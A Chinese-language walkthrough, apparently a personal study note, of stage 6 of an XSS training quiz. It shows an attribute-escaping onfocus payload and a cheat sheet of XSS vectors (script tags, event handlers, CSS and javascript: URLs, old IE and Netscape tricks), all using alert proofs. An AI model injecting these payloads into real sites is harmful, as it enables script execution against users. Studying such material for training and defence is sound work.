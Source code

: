 ```javascript
document.forms[0].p1.value = '"><script>alert(document.domain)</script><"'
```

# 第六关

>http://xss-quiz.int21h.jp/stage-no6.php?sid=53cb838f6fe2a388b3e2adf56290494fe9edf999

我还是太弱鸡了，竟然看了答案，这题还是比较好分析的。<br>
输入特殊字符发现：`" `未被过滤，可以截断value输入，但是字符 `<>` 被转译。<br/>
仍存在注入。<br>
通过添加事件注入！<br>
	
```javascript
" onfocus="alert(document.domain);
```
or

```javascript
" onfocus="alert(document.domain);"
```

==================Don't look boring==========================

Ps:<br>
>当使用XSS时，分为三种类型:<br>
>**A**:直接注入，可以截断属性，注入事件。

```javascript
Script tags: <script src=" ;>
Event handler attributes: <body onload="alert('xss')">
CSS: <p style="background:url('javascript:alert(1)')">
URLs:<img src="javascript:alert('XSS')">
```

>**B**.Proprietary extensions to HTML private development
私人开发专有扩展HTML，**主要是针对只支持IE浏览器的私有标签！**

```javascript
XML data islands(IE) :
<xml src=" ; id="x">
<span datasrc="#x" datafld="c" dataformatas="html">
```

XML data islands(IE)(数据岛)(<a href="http://www.w3school.com.cn/xml/xml_dont.asp">使用</a>)：
>1.是嵌入 HTML 页面中的 XML 数据。<br>
>2.XML 数据岛只在 Internet Explorer 浏览器中有效。<br>

```javascript
JavaScript expressions in attribute(NS4):
<p id="&{alert('XSS')}">
```


​	
```javascript
Conditional comments(IE)
<!--[if gte IE 4]>
<script>alert('XSS')</script>
<![endif]-->
```
Conditional comments(条件注释)：定义了一些通过IE执行的HTML标记
